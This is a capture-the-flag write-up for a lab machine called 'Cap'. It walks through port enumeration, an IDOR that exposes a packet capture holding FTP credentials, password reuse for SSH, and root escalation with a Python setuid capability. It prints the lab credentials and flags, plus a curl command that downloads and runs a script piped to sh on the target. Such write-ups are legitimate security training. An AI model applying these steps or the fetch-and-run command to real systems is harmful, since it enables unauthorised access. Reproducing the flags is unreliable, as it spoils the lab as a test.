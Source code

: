 ```yaml
---
sticker: emoji//1f9e2
---
```


# CAP

## ENUMERATION

***

### OPEN PORTS

***

| PORT | SERVICE |
| ---- | ------- |
| 21   | ftp     |
| 22   | ssh     |
| 80   | http    |

We have three open ports, let's begin with reconnaissance.

## RECONNAISSANCE

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250107160531.png)

This is the standard page, we have `Dashboard`, `Security Snapshot` `Ip Config` `Network Status`, let's check each of those:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107160748.png)

Security snapshot takes us to another URL, if we click download, we are able to get a `7.pcap` file, if we use wireshark to analyze that, it's empty, so, let's keep searching in order to find anything useful:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107161541.png)

We have an Ip section, nothing rare, let's keep searching:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107161617.png)

Also a netstat section, nothing seems off too,

```ad-hint

That's when I realized that when we enter the security snapshot section, we get redirected to a `/data/number` URL, so, I thought that if an IDOR vulnerability is there on the website, we may be able to read another scans, I used burp and it was indeed true, that's when I got that scan `5` had the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107162125.png)


Now we have packets to read! Let's download the file and analyze it with wireshark:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107162221.png)

```

## EXPLOITATION

***

Nothing useful came from this. That's when I kept searching and found the `/data/0` file, let's analyze it:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107163040.png)

We found something useful!

A ftp string, let's follow it:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107163123.png)

Nice, we got some credentials, let's log into `nathan` user:

```ad-note
`nathan`: `Buck3tH4TF0RM3!`
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250107163428.png)

We got access, we can see a `user.txt` flag, let's get it and read it:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107163514.png)

User flag is `f763e899654614af8d5f2e6a886516a0`

I thought than since that password works for ftp, some users tend to have the same password in different services, so, let's try to log into ssh with those credentials:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107163700.png)

I was right, let's proceed with privilege escalation.

## PRIVILEGE ESCALATION

***

We can not use sudo on this machine with nathan user:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107163815.png)

Let's use linpeas in this machine and check what it got for us:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107164042.png)

We can use curl in the machine, so, we can perform: `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`

![](gitbook/cybersecurity/images/Pasted%20image%2020250107164142.png)

Nice, when linpeas finishes, we can see the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107164513.png)

This is the binary we'll use in order to perform PE, I asked chatgpt and it said we must do the following steps:

```ad-summary
1. `/usr/bin/python3.8`
2. `import os`
3. `os.setuid(0)` (As this is root ID)
4. `os.system("bash")`

#### PoC
----
![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107165038.png)

We can also see this procedure in Gtfobins:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107165210.png)

```

Just like that, CTF is done, let's read root flag and submit it:

![](gitbook/cybersecurity/images/Pasted%20image%2020250107165111.png)

Root: `bb58eed72cb4312008e7262c59c17d7b`

Gg!
